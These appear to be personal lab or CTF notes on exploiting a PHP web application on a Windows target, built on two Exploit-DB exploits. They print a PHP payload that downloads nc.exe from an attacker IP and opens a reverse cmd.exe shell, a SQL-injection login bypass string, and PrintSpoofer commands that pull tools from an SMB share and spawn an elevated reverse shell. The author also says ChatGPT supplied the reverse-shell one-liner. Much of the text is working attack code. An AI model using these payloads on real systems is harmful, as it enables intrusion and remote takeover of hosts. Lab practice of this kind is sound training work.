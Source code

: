 2 exploits

### 50801
https://www.exploit-db.com/exploits/50801

modified a single thing that our target is not containing `apsystem` directory

![[Pasted image 20240610195154.png]]

Now it is good shell but it was just webshell!

so tried many ways to upload `nc.exe` and get rev shell but failed!
So, finally took help of ChatGPT and even looked a bit on discord, but get one liner from GPT

```
shell_data = "<?php file_put_contents('nc.exe', fopen('http://192.168.45.176/nc.exe', 'r')); exec('nc.exe 192.168.45.176 4444 -e cmd.exe'); ?>"
```

I was just needed to change one line in exploit and I updated line 45 with this, and started python server and listener

so it get nc first and gave me shell back

(but this didn't worked after I came from break!!!!)
### 50802
https://www.exploit-db.com/exploits/50802

look at payload in this exploit as it was just giving PHPSESSIONID, which I don't know how to use

![[Pasted image 20240611022522.png]]

so, F F suggested, to use just payload from exploit on login form and give pass test and upload shell there (got his help here but I already break through this, so I don't consider this)

#### payload
```
username=nobodyhavethisusername' UNION SELECT 1 as id, 'myuser' as username, '$2y$10$UNm8zqwv6d07rp3zr6iGD.GXNqo/P4qB7fUZB79M3vmpQ6SidGi.G' as password ,'zzz' as firstname,'zzz' as lastname,'zzz.php' as photo, '2018-04-30' as created_on -- &password=test&login=
```


# priv esc

PrintSpoofer or Godpotato

```
net use n: \\192.168.45.240\share /user:test test
copy \\192.168.45.240\share\PrintSpoofer.exe
copy \\192.168.45.240\share\nc.exe
```

```
PrintSpoofer.exe -c "nc.exe 192.168.45.240 5555 -e cmd"
```
